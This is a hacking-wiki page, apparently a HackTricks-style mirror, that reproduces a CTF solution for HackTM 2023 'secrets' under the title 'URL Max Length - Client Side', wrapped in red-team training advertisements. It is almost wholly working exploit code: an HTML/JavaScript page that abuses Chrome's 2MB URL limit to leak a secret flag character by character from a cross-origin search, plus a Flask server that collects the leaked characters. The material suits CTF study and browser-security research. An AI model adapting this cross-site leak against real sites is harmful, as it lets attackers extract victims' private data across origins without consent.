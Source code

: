 # URL Max Length - Client Side

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

Code from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)

```html
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async () => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i = 0; i < CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()
</script>
</html>
```

Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details>

<summary>Support Resources</summary>

* Check the [**subscription plans**](https://patreon.com/khulnasoft)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@resources\_live**](https://twitter.com/khulnasoft\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**Resources**](https://github.com/khulnasoft/resources) and [**Resources Cloud**](https://github.com/khulnasoft/resources-cloud) github repos.

</details>
{% endhint %}

